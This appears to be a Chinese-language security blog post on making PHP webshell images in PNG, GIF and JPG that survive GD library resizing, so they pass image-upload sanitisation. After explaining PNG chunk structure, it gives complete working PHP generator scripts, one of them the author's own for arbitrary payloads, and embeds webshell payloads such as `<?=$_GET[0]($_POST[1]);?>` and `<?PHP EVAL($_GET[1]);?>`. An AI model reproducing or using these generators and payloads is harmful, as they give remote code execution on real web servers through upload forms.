

# 0x01 前言

参考：

- https://xz.aliyun.com/t/2657
- https://www.jianshu.com/p/4d8cace82028
-  https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/  重点观看这个文章。

分为PNG、GIF和Jpeg三种。

主要目的是绕过imagecopyresized() and imagecopyresampled()两个函数对图片的渲染处理，保持插入的php木马不被渲染替换掉。

# PNG
PNG文件一般由8字节的PNG文件署名(PNG file signature)域和4个数据块。

起Magic Number为：`89 50 4e 47 0d 0a 1a 0a`

## 结构模式

**数据块结构规定**  

- 长度：一个4字节的无符号整数，给出数据块的数据字段的长度（以字节计）。 长度只计算数据域，为了兼容一些不支持无符号的语言,所以长度限制在(231 - 1)字节，不能达到(232 - 1)字节。
- 数据块类型码：一个4字节的块类型代码。 为了便于描述和检查PNG文件，类型代码仅限于大写和小写的ASCII字母（A-Z和a-z，使用十进制ASCII代码表示为65-90和97-122）。 然而，编码器和解码器必须把代码作为固定的二进制值而非字符串来处理。
- 数据域：数据块的数据域，存储按照数据块类型码指定的数据（如果有的话）。 该字段可以是长度为零。
- 循环冗余检测：一个4字节的CRC（循环冗余校验）计算，在所述块的前面的字节，包括该块类型的代码和数据块的数据字段，但是不包括长度字段。 CRC始终存在，即使不包含数据块。`CRC(cyclic redundancy check`域中的值是对`Chunk Type Code`域和`Chunk Data`域中的数据进行计算得到的。CRC具体算法定义在`ISO 3309`和`ITU-T V.42`中。

**数据块类型**

  

- IHDR：文件头数据块IHDR(header chunk)：它包含有PNG文件中存储的图像数据的基本信息，并要作为第一个数据块出现在PNG数据流中，而且一个PNG数据流中只能有一个文件头数据块。

- PLTE：调色板数据块PLTE(palette chunk)包含有与索引彩色图像(indexed-color image)相关的彩色变换数据，它仅与索引彩色图像有关，而且要放在图像数据块(image data chunk)之前。PLTE数据块是定义图像的调色板信息，PLTE可以包含`1~256`个调色板信息，每一个调色板信息由3个字节组成。

- IDAT：图像数据块IDAT(image data chunk)：它存储实际的数据，在数据流中可包含多个连续顺序的图像数据块。IDAT存放着图像真正的数据信息，因此，如果能够了解IDAT的结构，我们就可以很方便的生成PNG图像。

- IEND：图像结束数据IEND(image trailer chunk)：它用来标记PNG文件或者数据流已经结束，并且必须要放在文件的尾部。如果我们仔细观察PNG文件，我们会发现，文件的结尾12个字符看起来总应该是这样的：
0000000049454E44AE426082，不难明白，由于数据块结构的定义，IEND数据块的长度总是0（00 00 00 00，除非人为加入信息），数据标识总是IEND（49 45 4E 44），因此，CRC码也总是AE 42 60 82。

## 构造exp图片

国外大佬提供了一个脚本如下：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

**但是该脚本生成的payload是固定的且为`<?=$_GET[0]($_POST[1]);?>`**，这段代码在无法在高版本php中作为后门存在的。所以我们能否制作一个payload任意的图片马？这里我经过调试和看文档，制作了一个可以插入任意Payload的php脚本。

```php
<?php 
/* cX<?PHP 不可取消 但可以替换为c<?=
   ?>X<0x00><0x00> 不可删除。*/
$a='cX<?PHP FILE_PUT_CONTENTS();?>X'.urldecode('%00').urldecode('%00');

$payload_ascii='';
for($i=0;$i<strlen($a);$i++){
	$payload_ascii.=bin2hex($a[$i]);
}

$payload_hex=bin2hex(gzinflate(hex2bin($payload_ascii)));

// echo $payload_hex."\n";
preg_match_all('/[a-z0-9]{2}/', $payload_hex, $matches);

$blist=[];

foreach($matches[0] as $key => $value){
	$blist[$key]=base_convert($value, 16, 10);
}

function filter1($blist){
	for($i=0; $i<(count($blist)-3);$i++){
		$blist[$i+3] = ($blist[$i+3] + $blist[$i]) %256;
	}
	return array_values($blist);
}

function filter3($blist){
	for($i=0; $i<(count($blist)-3);$i++){
		$blist[$i+3] = ($blist[$i+3] + floor($blist[$i]/2) ) %256;
	}
	return array_values($blist);
}
$p=array_merge(filter1($blist), filter3($blist));
$img = imagecreatetruecolor(32, 32);

// echo sizeof($p);
for ($y = 0; $y < sizeof($p)-3; $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   // echo $color;
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
```

这里提供一个内容为`<?PHP EVAL($_GET[1]);?>`的图片马


# GIF

对比不变的图片点插入即可

# JPG

jpg.php
```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```